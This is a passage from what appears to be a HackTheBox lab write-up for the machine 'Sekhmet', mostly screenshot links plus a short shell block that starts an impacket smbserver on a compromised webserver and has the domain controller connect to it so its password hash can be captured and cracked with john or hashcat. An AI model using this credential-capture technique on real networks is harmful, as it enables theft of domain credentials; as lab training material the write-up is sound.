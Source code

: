 <img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/44.png"  >

Then, we can simply use a smbserver binary from here:<a href="https://github.com/ropnop/impacket_static_binaries/releases" target="_blank"> impacket static binaries</a>

Here's the output of that:

```shell
# on webserver container
chmod +x smbserver
./smbserver share . -smb2support

# on DC
net use \\webserver.windcorp.htb\share
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/45.png"  >

We can then crack this hash using john or hashcat.

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/46.png" width="934" height="232">
